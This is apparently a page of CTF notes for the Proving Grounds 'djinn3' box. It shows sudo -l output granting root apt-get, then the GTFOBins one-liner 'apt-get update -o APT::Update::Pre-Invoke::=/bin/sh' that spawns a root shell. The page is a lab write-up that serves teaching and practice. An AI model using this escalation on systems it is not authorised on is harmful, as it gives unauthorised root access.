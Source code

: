 ```yaml
---
layout: default
title: Apt-get
parent: Sudo
nav_order: 6
---
```


# Apt-get

---

## Sudo Permissions

```bash
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason:
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get

```

Checking GFTOBins we have a way to exploit _apt-get_ with Sudo permissions

![gtfo](../../../../assets/images/ctfs/proving_grounds/djinn3/gtfo.png)

```bash
jason@djinn3:/home/saint$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root

```
